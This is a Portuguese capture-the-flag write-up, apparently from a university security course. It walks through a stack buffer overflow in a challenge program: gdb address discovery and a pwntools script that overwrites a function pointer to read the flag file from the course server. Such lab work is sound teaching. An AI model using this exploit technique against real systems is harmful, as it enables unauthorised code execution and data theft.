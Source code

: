 # CTF Semana #5 (Buffer Overflow)

Este documento descreve as etapas seguidas para explorar o funcionamento da stack e realizar a exploração de vulnerabilidades de buffer overflow na stack, utilizando o servidor cujo backend está em execução em [ctf-fsi.fe.up.pt](http://ctf-fsi.fe.up.pt:4000).

## 1. Reconhecimento 

Buffer overflow é uma vulnerabilidade de segurança que ocorre quando um programa tenta armazenar mais dados em um buffer do que ele pode comportar. Um bom exemplo é feito neste [video](https://www.youtube.com/watch?v=1S0aBV-Waeo).

Analisando o código do ficheiro `main.c`, percebemos que havia uma vulnerabilidade relacionada com o uso da função `scanf`. Como podemos ver na Figura 1, é declarado um buffer de 32 bytes, mas a função `scanf` permite que o user forneça até 45 bytes de input. Isto significa que ao inserir uma string maior do que 32 caracteres vai haver um buffer overflow.

![img1](Images/CTF5/Figura1.png)

*Figura 1: vulnerabilidade na função `main.c`.*

O buffer overflow pode sobrescrever o pointer da função `fun` e permitir manipular esse pointer para apontar para outra função. 

## 2. Endereços 

Após isso, precisamos de identificar os endereços em que essas variáveis estão localizadas. Para isso, utilizamos o `gdb` (GNU Debugger) com breakpoint na função `main` para encontrar essas informações.

Como podemos ver na Figura 2. descobrimos os endereços de `fun`, `buffer` e `readtxt`, além de calcular o offset entre `fun` e `buffer`, que é de 32 bytes. Este offset confirma que, ao ultrapassar 32 bytes de input, o pointer `fun` pode ser sobrescrito, permitindo a manipulação do fluxo de execução. 

![img2](Images/CTF5/image.png)

*Figura 2: endereços de `fun`, `buffer` e `readtxt`*


## 3. Exploit 

Com toda a informação recolhida, alteramos o código do ficheiro `exploit.py` para o seguinte:

```python
#!/usr/bin/python3
from pwn import *

# to attack the remote server
r = remote('ctf-fsi.fe.up.pt', 4000)
# to run locally
# r = process('./program')

readtxt_adress = 0x80497a5

payload =  b"flag\0" # 5 bytes
payload += b"x"*27 # 32 - 5 = 27 bytes
payload += p32(readtxt_adress)

r.recvuntil(b"flag:\n")
r.sendline(payload)

buf = r.recv().decode()
print(buf)
```

A construção do payload foi feita da seguinte forma:

- Inserimos a string `flag` com um null byte `\0` para indicar ao programa o final da string (5 bytes).

- Preenchemos o restante do buffer com 27 bytes de um caracter aleatório para totalizar os 32 bytes.

- Sobrescrevemos o pointer `fun` com o endereço da função `readtxt` para o programa executar `readtxt`em vez de `echo`.

Com este payload conseguimos manipular o pointer `fun` para apontar para `readtxt` e passar o parâmetro `flag`, uma vez que a presença do null byte após `flag` faz com que o programa considere apenas os primeiros 5 bytes.

Ao correr o exploit conseguimos determinar o nosso resultado (Figura 3).

![img3](Images/CTF5/image3.png)

*Figura 3: flag obtida após executar o exploit.*